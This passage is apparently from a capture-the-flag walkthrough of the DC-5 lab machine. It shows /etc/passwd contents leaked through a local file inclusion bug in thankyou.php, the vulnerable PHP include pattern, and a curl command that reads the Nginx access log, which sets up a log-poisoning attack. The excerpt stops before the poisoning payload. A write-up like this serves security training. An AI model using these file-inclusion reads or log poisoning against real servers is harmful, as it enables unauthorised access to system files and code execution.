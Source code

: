 ~~~
systemd-network:x:101:104:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:105:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:106:systemd Bus Proxy,,,:/run/systemd:/bin/false
Debian-exim:x:104:109::/var/spool/exim4:/bin/false
messagebus:x:105:110::/var/run/dbus:/bin/false
statd:x:106:65534::/var/lib/nfs:/bin/false
sshd:x:107:65534::/var/run/sshd:/usr/sbin/nologin
dc:x:1000:1000:dc,,,:/home/dc:/bin/bash
mysql:x:108:113:MySQL Server,,,:/nonexistent:/bin/false
			</footer>
		</div>
	</div>
</body>
</html>
~~~

## Log poisoning

The `thankyou.php` page is likely including the page given to the `file` parameter as follows:

```php
include($_GET['file']);
```

We can exploit this to poison the Nginx log file (Nmap told us that the web server is running on Nginx). Let's check if we can read the `access.log` file:

~~~
kali@kali:/data/DC_5$ curl -s http://dc-5/thankyou.php?file=/var/log/nginx/access.log
<!doctype html>

<html lang="en">
<head>
	<meta charset="utf-8">
	<title>Contact</title>
	<link rel="stylesheet" href="css/styles.css">
</head>

<body>
	<div class="body-wrapper">
		<div class="header-wrapper">
			<header>
				DC-5 is alive!
			</header>
		</div>
		
		<div class="menu-wrapper">
			<menu>
				<ul>
					<a href="index.php"><li>Home</li></a>
					<a href="solutions.php"><li>Solutions</li></a>
					<a href="about-us.php"><li>About Us</li></a>
					<a href="faq.php"><li>FAQ</li></a>
					<a href="contact.php"><li>Contact</li></a>
				</ul>
			</menu>
		</div>
	
		<div class="body-content">
			<h2>Thank You</h2>

				<p>Thank you for taking the time to contact us.</p>

		</div>
		
~~~
